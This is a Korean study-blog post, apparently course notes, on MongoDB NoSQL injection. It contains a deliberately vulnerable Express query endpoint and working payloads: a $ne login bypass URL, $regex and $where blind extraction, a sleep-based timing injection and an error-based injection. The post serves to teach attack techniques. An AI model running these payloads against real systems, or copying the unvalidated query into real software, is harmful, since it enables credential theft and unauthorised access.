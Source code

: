 ```yaml
---
layout : single
title : "STAGE6. SQL Injection (5) : NoSQL Injection"
categories: web-hacking
tag: [dreamhack, webhacking]
sidebar:
    nav: "docs"
---
```

# Web Hacking - NoSQL Injection (2)

-  [x] NoSQL Injection
-  [x] Bline NoSQL Injection

## ServerSide : NoSQL Injection
SQL Injection과 공격 목적과 방법이 매우 유사하며, 이용자의 입력값이 쿼리에 포함되며 발생하는 문제점이다. MongoDB의 NoSQL Injection 취약점은 주로 이용자의 입력값에 대한 타입 검증이 불충분할 때 발생한다. MongoDB는 SQL에서 저장하는 자료형 외에도 오브젝트, 배열 타입을 사용할 수 있다.
<br><br>

MongoDB 자료형 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/type/) <br><br>

**express 데이터 처리 방식** <br><br>
이용자의 입력값과 타입을 출력하는데, req.query의 타입이 문자열로 지정되어 있지 않기 때문에 문자열 외의 타입이 입력될 수 있다.

```js
const express = require('express'); // express 기본 모듈 불러오기
const app = express(); // express 객체 생성
//get 프로토콜에 대한 응답
app.get('/', function(req,res) {
    console.log('data:', req.query.data);
    console.log('type:', typeof req.query.data);
    res.send('hello world');
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

### NoSQL Injection
MongoDB는 문자열이 아닌 타입의 값을 입력할 수 있고, 이를 통해 연산자를 사용할 수 있다. <br><br>

**MongoDB NoSQL Injection Example** <br>

```js
const express = require('express');
const app = express();
const mongoose = require('mongoose');
const db = mongoose.connection;
mongoose.connect('mongodb://localhost:27017/', { useNewUrlParser: true, useUnifiedTopology: true });
app.get('/query', function(req,res) {
    db.collection('user').find({
        'uid': req.query.uid,
        'upw': req.query.upw
    }).toArray(function(err, result) {
        if (err) throw err;
        res.send(result);
  });
});
const server = app.listen(3000, function(){
    console.log('app.listen');
});
```

위 코드는 user 콜렉션에서 이용자가 입력한 uid와 upw에 해당하는 데이터를 찾고, 출력하는 예제 코드로, 이용자의 입력값에 대해 타입을 검증하지 않기 때문에 오브젝트 타입의 값을 입력할 수 있다. 오브젝트 타입의 값을 입력할 수 있다면, 연산자를 사용할 수 있으며, $ne 연산자는 입력한 데이터와 일치하지 않는 데이터를 반환한다. 따라서, 공격자는 계정 정보를 모르더라도 다음과 같이 입력해 해당 정보를 알아낼 수 있다.<br><br>

**ne 연산자 : uid와 upw가 a가 아닌 데이터를 조회한 결과**

```
http://localhost:3000/query?uid[$ne]=a&upw[$ne]=a
=> [{"_id":"5ebb81732b75911dbcad8a19","uid":"admin","upw":"secretpassword"}]
```

#### NoSQL Injection 실습 - admin의 계정의 비밀번호 획득하기
upw에 not equal 연산자를 사용하여 upw의 값에 상관 없이 uid가 admin인 데이터를 조회할 수 있다

```
{"uid": "admin", "upw":{"$ne":""}}
```

### Blind NoSQL Injection

MongoDB 연산자 공식 문서 : [link](https://www.mongodb.com/docs/manual/reference/operator/query/)


|Name|Description|
|:---|:---|
|$expr|쿼리 언어 내에서 집계 식을 사용할 수 있습니다.|
|$regex|지정된 정규식과 일치하는 문서를 선택합니다.|
|$text|지정된 텍스트를 검색합니다.|
|$where|JavaScript 표현식을 만족하는 문서와 일치합니다.|

#### $regex
regex 연산자를 활용한 upw에서 각 문자로 시작하는 데이터 조회하기

```
> db.user.find({upw: {$regex: "^a"}})
> db.user.find({upw: {$regex: "^b"}})
> db.user.find({upw: {$regex: "^c"}})
...
> db.user.find({upw: {$regex: "^g"}})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

#### $where
인자로 전달한 JS 표현식을 만족하는 데이터를 조회한다.

```
> db.user.find({$where:"return 1==1"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }

# 필드에서는 사용할 수 없다
> db.user.find({uid:{$where:"return 1==1"}})
error: {
	"$err" : "Can't canonicalize query: BadValue $where cannot be applied to a field",
	"code" : 17287
}
```

###### substring

해당 연산자로 JS 표현식을 입력하면, Blind SQL Injection에서 한 글자씩 비교했던 것과 같이 데이터를 알아낼 수 있다. 

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

###### Sleep 함수를 통한 Time based Injection

표현식과 함께 sleep 함수를 사용하면, 지연 시간을 통해 참/거짓 결과를 확인할 수 있다. 아래 쿼리는 upw의 첫 글자를 비교하고, 해당 표현식이 참일 때 sleep 함수를 실행한다 

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

###### Error based Injection

에러를 기반으로 데이터를 알아내는 기법으로, 올바르지 않은 문법을 입력해 고의로 에러를 발생시킨다. 

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```